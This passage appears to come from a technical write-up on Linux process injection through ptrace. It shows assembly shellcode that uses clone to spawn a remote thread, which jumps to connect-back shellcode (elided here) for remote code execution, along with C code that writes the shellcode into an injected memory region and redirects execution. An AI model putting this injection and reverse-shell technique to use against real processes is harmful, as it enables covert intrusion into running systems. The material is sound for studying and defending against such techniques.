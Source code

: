 ### Remote Code Execution 

The second-staged payload *(emulating `CreateRemoteThread`)* can now be written into the newly allocated page for execution. The aim was to come up with a shellcode that would not affect the execution of the remote process at all cost and should be able to run as its own separate **process** or **thread**. 

The `clone` syscall is interesting because it can be used to implement both `threads` *(light-weight processes)* and *child processes* based on arguments pass to it *i.e* `CLONE_VM`. 


The following is part of the shellcode used to emulate `CreateRemoteThread` by spawning a remote thread that connect's back to an attacker's machine for **Remote Code Execution**. 

```asm
xor rdi, rdi;
or rdi, 0x800100 ;CLONE_UNTRACED | CLONE_VM

xor rsi, rsi
xor rdx, rdx
xor rcx, rcx
xor r8, r8

push 0x38
pop rax
syscall; clone(unsigned long clone_flags, unsigned long newsp, void *parent_id, void *child_tid, unsigned int tid)
	
cmp rax, 0x0
je <Connect-Back Shellcode address> ;JMP to connect-back shellcode
int3 ;raise a SIGTRAP
...
```
When the above shellcode is executed, the spawned thread *(that see'z a PID of `0`)* will execute the connect back shellcode connecting to `localhost:1337`. On the other hand, the parent proccess will raise a `SIGTRAP` letting us know that shellcode execution was a success, therefore allowing us to restore the back'd up data and resume execution of the remote process from _**ptrace's**_ `SIGSTOP`.

The following is the source code snippet that writes code into the new mmap'd region and returns execution back to the remote process. 

```c
shellcodeExec:
        /* ----- Write and Execute shellcode stored in the newly mmap'd region ----*/
        dataWrite(pid, address->mmaped_address, (unsigned long *) shellcode, sizeof(shellcode));

        memset(&regs, 0, sizeof(struct user_regs_struct));

        regs.rip = (unsigned long) address->mmaped_address;

        ptrace(PTRACE_SETREGS, pid, NULL, &regs);
        fprintf(stdout, "[+] Shellcode Execution @ %p\n", regs.rip);
        ptrace(PTRACE_CONT, pid, NULL, NULL);

        bzero(&status, sizeof(int));
        waitpid(pid, &status, WUNTRACED);

        if (WIFSTOPPED(status) && WSTOPSIG(status) == SIGTRAP) goto cleanup;


cleanup:
        dataWrite(pid, address->start_address, (unsigned long *)backup, sizeof(remote_mmap));

        //Restore Registers and execution back to the remote process

        ptrace(PTRACE_SETREGS, pid, NULL, &oldregs);
```